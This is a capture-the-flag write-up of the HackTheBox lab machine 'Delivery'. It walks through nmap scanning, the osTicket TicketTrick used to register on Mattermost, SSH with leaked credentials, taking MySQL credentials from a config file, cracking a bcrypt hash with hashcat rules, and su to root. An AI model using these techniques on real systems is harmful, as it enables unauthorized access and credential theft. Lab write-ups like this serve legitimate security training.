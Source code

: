 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Delivery
- Description: Delivery is an easy difficulty Linux machine that features the support ticketing system osTicket where it is possible by using a technique called TicketTrick, a non-authenticated user to be granted with access to a temporary company email. This &amp;quot;feature&amp;quot; permits the registration at MatterMost and the join of internal team channel. It is revealed through that channel that users have been using same password variant &amp;quot;PleaseSubscribe!&amp;quot; for internal access. In channel it is also disclosed the credentials for the mail user which can give the initial foothold to the system. While enumerating the file system we come across the mattermost configuration file which reveals MySQL database credentials. By having access to the database a password hash can be extracted from Users table and crack it using the &amp;quot;PleaseSubscribe!&amp;quot; pattern. After cracking the hash it is possible to login as user root.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT     STATE SERVICE VERSION                                                          
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)     
| ssh-hostkey:                                                                          
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)            
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)           
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)         
80/tcp   open  http    nginx 1.14.2                                                     
|_http-title: Welcome                                                                   
| http-methods:                                                                         
|_  Supported Methods: GET HEAD                                                         
|_http-server-header: nginx/1.14.2                                                      
8065/tcp open  unknown                                                                  
| fingerprint-strings:                                                                  
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request                                                          
|     Content-Type: text/plain; charset=utf-8
|     Connection: close   
```

Checking out port 80 shows us a note to take a look at the helpdesk page 

![](assets/images/2024-02-22-HTB-Delivery-writeup-image-1.png)
Clicking on contact us shows me the following:
![](assets/images/2024-02-22-HTB-Delivery-writeup-image-2.png)

Which essentially tells me to use the helpdesk to make me a @delivery.htb email address so I can access the mattermost instance on port 8065.

Upon visiting the helpdesk instance, it is utilizing osticket which essentially means we could possibly do the infamous ticket trick!

When I create a ticket I see it assigns a number email to me:

![](assets/images/2024-02-22-HTB-Delivery-writeup-image-3.png)

I can use this email to sign up to mattermost:

![](assets/images/2024-02-22-HTB-Delivery-writeup-image-4.png)

It requires verification! So we'll check on our ticket status now:
![](assets/images/2024-02-22-HTB-Delivery-writeup-image-5.png)

This successfully sends the email to osticket and we can access the verification link!

![](assets/images/2024-02-22-HTB-Delivery-writeup-image-6.png)

Logging in allows us to see the internal discussions, we can see some creds to log into the server, as well as a hint at using hashcat rules along side the term PleaseSubscribe in order to crack hashes!

```bash
TB ssh maildeliverer@delivery.htb
maildeliverer@delivery.htb's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ whoami
maildeliverer
```
## Privilege Escalation

Looking at the mattermost config, I can see these SQL creds:

![](assets/images/2024-02-22-HTB-Delivery-writeup-image-7.png)

They are quiet leading towards the path this box is intended to go in!

![](assets/images/2024-02-22-HTB-Delivery-writeup-image-8.png)

I can grab the hash, and run it through hashcat with a rule for PleaseSubscribe!

```bash
HTB hashid 
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```

Using hashcats best64.rule, I am able to crack the hash:

```bash
HTB hashcat -m 3200 hash pass -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 9 5900X 12-Core Processor, 2915/5894 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: pass
* Passwords.: 1
* Bytes.....: 17
* Keyspace..: 77
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Thu Feb 22 08:25:43 2024 (1 sec)
Time.Estimated...: Thu Feb 22 08:25:44 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (pass)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       17 H/s (0.66ms) @ Accel:8 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
Hardware.Mon.#1..: Util: 17%

Started: Thu Feb 22 08:25:20 2024
Stopped: Thu Feb 22 08:25:46 2024
```

Now I can just become root!

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su root
Password: 
root@Delivery:~# whoami
root
```

best, 
gerbsec